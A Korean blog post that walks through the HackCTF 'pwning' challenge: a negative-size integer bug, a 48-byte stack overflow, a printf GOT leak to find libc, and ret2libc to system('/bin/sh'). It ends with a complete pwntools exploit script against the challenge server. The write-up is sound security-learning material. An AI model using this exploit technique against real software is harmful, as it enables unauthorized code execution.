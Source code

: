 ```yaml
---
layout: post
title:  "HackCTF pwning write-up"
date:   2020-02-03 19:45:55
image:  hackctf_pwning.PNG
tags:   [HackCTF]
categories: [Write-up]
---
```



### 1.  문제

---

**1) mitigation 확인**

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20pwning/Untitled.png)

NX 비트 말고는 안걸려있다.
<br><br><br>
**2) 문제 확인**

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20pwning/Untitled%201.png)

몇 바이트를 입력할 것인지 사이즈를 묻고, 해당 사이즈 만큼 값을 입력할 수 있는 공간이 나온다. 그 뒤 입력한 데이터를 출력해주고 프로그램이 종료가 된다
<br><br><br>
**3) 코드 확인**

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20pwning/Untitled%202.png)

main 문은 별게 없고 vuln을 자세히 보면 된다. get_n 함수가 값을 입력할 수 있는 함수인 것같다. 또한 입력한 값의 범위는 32 미만으로 제한되어 있다.

32 미만의 값을 입력하면 get_n 함수를 한번 더 호출하여 데이터를 입력하게 된다. 그럼 get_n 함수를 살펴보자.
<br><br>
![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20pwning/Untitled%203.png)

while문을 돌면서 getchar()를 통해 문자열을 입력받는다. 해당 반복문을 탈출하는 조건으로는 널 값을 입력하거나, get_nt 함수의 두번째 인자로 전달된 값보다 v5가 큰 경우에 탈출한다. 그리고 마지막으로 입력한 값이 10이면 종료를 한다.

여기서 v4==10의 의미는 getchar()가 호출되어 사용자가 데이터를 입력하고 엔터를 누르면 해당 엔터에 해당하는 아스키 값인 0xa까지 같이 들어가기 때문에 문자열의 끝을 판단하기 위한 조건이다.

해당 함수가 종료되고 atoi 함수를 이용하여 nptr 변수에 저장된 문자열을 정수로 변환 한다.
<br><br><br><br>
### 2. 접근방법

---

결국 이 문제도 사용자의 입력을 받는 부분에서 시작하여 비정상적인 위치에 원하는 값을 넣고 비정상적인 코드의 동작을 유발하는 것이 목적이다.

딱 봐도 ROP로 system 함수를 띄우는 것이 최종 목표로 보인다. 그렇다면 ret 값을 변경 할수 있는지 봐야한다. 
<br><br><br>
![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20pwning/Untitled%204.png)

vuln 함수를 다시 보면 atoi의 반환값이 v2에 들어간다. 헌데 v2는 signed int 형이므로 음수가 입력이 가능하다. 따라서 음수가 입력가능하다는 소리이고, 이를 통해 32보다 큰 데이터를 입력할 수 있다.

확인을 하다보면 get_n 함수에서 48바이트 크기의 문자열을 아무렇게 입력하게 되면, vuln 함수의 ret 바로 직전까지 해당 데이터가 들어간 것을 알수 있다. (이는 문제를 풀다보니 꼼수아닌 꼼수로..)

결국 "A"*48 + 특정 함수 이렇게 입력을 하면 vuln 함수가 return 되고 main으로 가는 것이 아닌 삽입한 주소로 이동한다. 하지만 vuln에서는 반복적인 로직이 아니므로 바로 종료가 된다.

우리가 필요한 것은 libc의 base주소이다. 따라서 printf의 ptl, got를 이용하여 libc의 printf 주소를 leak하고 다시 vuln함수로 돌아가도록 체인을 걸어줘야 한다.

그다음 얻게 된 printf 주소로 libc database를 활용하여 원하는 오프셋을 구하여 ROP를 진행하면 된다.
<br><br><br>
![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20pwning/Untitled%205.png)

아래 0xf7dea020가 libc에 존재하는 printf의 주소이다.  하위 3바이트를 가지고 어느 버전의 libc인지 알아보자
<br><br><br>
![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20pwning/Untitled%206.png)

ubuntu20의 2.23 버전인 것을 확인할 수 있고 또한 printf, bin_sh, system 함수의 오프셋을 확인 가능하다. 이를 이용하여 ROP를 진행하면 끝이다.
<br><br><br><br><br>
### 3. 풀이

---

최종 익스코드는 다음과 같다
```python
from pwn import *
context.log_level="DEBUG"

p=remote("ctf.j0n9hyun.xyz",3019)
#p=process("./pwning")
#gdb.attach(p)
p.sendlineafter("? ","-5")

payload = "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"
payload +=p32(0x8048370)
payload +=p32(0x804852f)
payload +=p32(0x804a00c)
p.sendlineafter("\n",payload)
p.recvuntil("\n")
printf_got=u32(p.recv()[:4])
log.info(hex(printf_got))


libc_base=printf_got-0x049020
system_adr=libc_base+0x0003a940
bin_adr=libc_base+0x15902b

payload2="aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"
payload2+=p32(system_adr)
payload2+="AAAA"
payload2+=p32(bin_adr)

p.sendline("-5")
p.sendlineafter("\n",payload2)

p.interactive()
```

<br><br><br>
### 4. 몰랐던 개념

---

모르는 개념은 없었지만, ROP를 진행하기 위해 반복문이 없어서 삽질을 좀 했다. 반복문이 없다면 만들면 될것을..

이렇게 반복문이 없는 로직에서 직접 해당 함수로 다시 돌아가는 ROP 문제를 몇개 풀었었는데 이젠 까먹지 말자.